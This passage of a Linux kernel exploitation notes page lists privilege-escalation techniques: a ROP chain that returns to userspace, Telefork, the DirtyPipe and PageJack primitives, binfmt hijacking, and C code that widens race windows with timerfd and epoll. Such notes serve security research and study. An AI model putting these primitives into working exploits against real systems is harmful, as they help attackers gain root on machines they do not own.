         // [...]
        
        rop[i++] = (unsigned long)win;
        rop[i++] = user_cs;
        rop[i++] = user_rflags;
        rop[i++] = user_rsp & 0xffffffffffffff00;
        rop[i++] = user_ss;
        */
    }
    ```

[Telefork](https://blog.kylebot.net/2022/10/16/CVE-2022-1786/#Telefork-teleport-back-to-userspace-using-fork)

- By using `vfork()` or `sys_fork()` combined with `msleep()`, the new child process is allowed to continue running while the corrupted parent process remains stuck in kernel space.

Pipe object

- [Pipe primitive (DirtyPipe)](https://github.com/veritas501/pipe-primitive) - mark the merge bit `PIPE_BUF_FLAG_CAN_MERGE`.

- [PageJack](https://i.blackhat.com/BH-US-24/Presentations/US24-Qian-PageJack-A-Powerful-Exploit-Technique-With-Page-Level-UAF-Thursday.pdf) - partial overwrite the `struct page *` field.

binfmt

1. Call `__register_binfmt()` to register the corrupted object into the global linked list.

2. Reclaim the object and create a fake `struct linux_binfmt` object.

3. Trigger ROP when analyzing the file format

Extend race window

- make all timerfds wakeup at the same time

    ```c
    int epoll_fd[EPOLL_CNT];
    int tfds[TFDS_CNT];
    int timer_fd = timerfd_create(CLOCK_MONOTONIC, 0);
    struct epoll_event event = { .events = 0 };
    struct itimerspec new = {.it_value.tv_nsec = 20};

    for (int i = 0; i < EPOLL_CNT; i++)
        epoll_fd[i] = epoll_create(1);

    for (int i = 0; i < TFDS_CNT; i++)
        tfds[i] = dup(timer_fd);

    for (int j = 0; j < EPOLL_CNT; j++) {
        for (int i = 0; i < TFDS_CNT; i++) {
            event.data.fd = tfds[i];
            epoll_ctl(epoll_fd[j], EPOLL_CTL_ADD, tfds[i], &event);
        }
    }

    timerfd_settime(timer_fd, TFD_TIMER_CANCEL_ON_SET, &new, NULL);
    ```
